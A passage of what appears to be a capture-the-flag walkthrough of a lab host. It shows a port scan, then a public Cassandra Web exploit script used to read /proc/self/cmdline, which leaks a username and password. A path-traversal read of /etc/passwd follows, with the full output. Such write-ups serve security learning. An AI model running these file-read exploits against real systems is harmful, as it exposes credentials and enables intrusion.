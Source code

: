 `autonmap -H 192.168.190.240 -t all`

`---------------------Starting Port Scan-----------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`80/tcp   open  http`
`3000/tcp open  ppp`
`8021/tcp open  ftp-proxy`

`---------------------Starting Script Scan-----------------------`

`PORT     STATE SERVICE          VERSION`
`22/tcp   open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)`
`| ssh-hostkey:` 
`|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)`
`|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)`
`|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)`
`80/tcp   open  http             Apache httpd 2.4.38`
`|_http-title: 403 Forbidden`
`|_http-server-header: Apache/2.4.38 (Debian)`
`3000/tcp open  http             Thin httpd`
`|_http-server-header: thin`
`|_http-title: Cassandra Web`
`8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket`
`Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel`

Looking at Cassandra Web on port 3000 we can execute CQL

![](Pasted%20image%2020240209155042.png)

But our user doesn't have authorization to read any of the "good" tables.

Go to google and just search Cassandra Web exploitdb

![](Pasted%20image%2020240209155201.png)

https://www.exploit-db.com/exploits/49362
Reading what the exploit does, if we can read /proc/self/cmdline, we can get the user's password

`└─$ python 49362.py 192.168.190.240 /proc/self/cmdline`                

`/usr/bin/ruby2.5/usr/local/bin/cassandra-web-ucassie-pSecondBiteTheApple330`

Try and fail to ssh with these credentials unfortunately

Read /etc/passwd

`└─$ python 49362.py 192.168.190.240 '../../../../../../../../../../etc/passwd'`

`root:x:0:0:root:/root:/bin/bash`
`daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin`
`bin:x:2:2:bin:/bin:/usr/sbin/nologin`
`sys:x:3:3:sys:/dev:/usr/sbin/nologin`
`sync:x:4:65534:sync:/bin:/bin/sync`
`games:x:5:60:games:/usr/games:/usr/sbin/nologin`
`man:x:6:12:man:/var/cache/man:/usr/sbin/nologin`
`lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin`
`mail:x:8:8:mail:/var/mail:/usr/sbin/nologin`
`news:x:9:9:news:/var/spool/news:/usr/sbin/nologin`
`uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin`
`proxy:x:13:13:proxy:/bin:/usr/sbin/nologin`
`www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin`
`backup:x:34:34:backup:/var/backups:/usr/sbin/nologin`
`list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin`
`irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin`
`gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin`
`nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin`
`_apt:x:100:65534::/nonexistent:/usr/sbin/nologin`
`systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin`